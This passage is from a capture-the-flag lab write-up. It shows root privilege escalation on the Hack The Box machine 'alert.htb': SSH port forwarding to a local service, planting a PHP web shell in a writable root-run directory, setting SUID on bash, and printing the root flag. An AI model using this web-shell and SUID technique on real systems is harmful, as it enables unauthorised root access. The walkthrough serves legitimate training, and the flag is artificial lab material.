By checking the open ports with `netstat`, a network utility that shows active connections and listening ports, we observe that port `8080` is listening locally.
```bash
$ netstat -tulnp
```


We can proceed to port forward the target's port 8080 back to our port 8080 via SSH to check its service.
```bash
$ ssh albert@alert.htb -L 8080:127.0.0.1:8080
```


Accessing the port, we come across a Website Monitor page.



Let's browse until we find out where the ‘website monitor’ is.





We see that the vast majority of elements are owned by root.

Knowing that the web service operates with PHP and that I have write permissions in ‘monitors’ with my current credentials, we can do the following:
```bash
$ nano test.php

$ <?php system("whoami && id"); ?>
```


And now we go to our browser  → http://localhost:8080/monitors/test.php


We are root becasue we will execute commands as a root (service propietary) so with this, we are going to give suid permission to bash.



We edit our test.php file like



Save the file and go to the previous link to our browser ( http://localhost:8080/monitors/test.php), this comand should have been executed.






Now we have permision as SUID, so if we do
```bash
$ bash -p
```
We will be root


```bash
Root Flag → 9c1833f971887a8e7a480715c909ac43
```

[Back](README.md)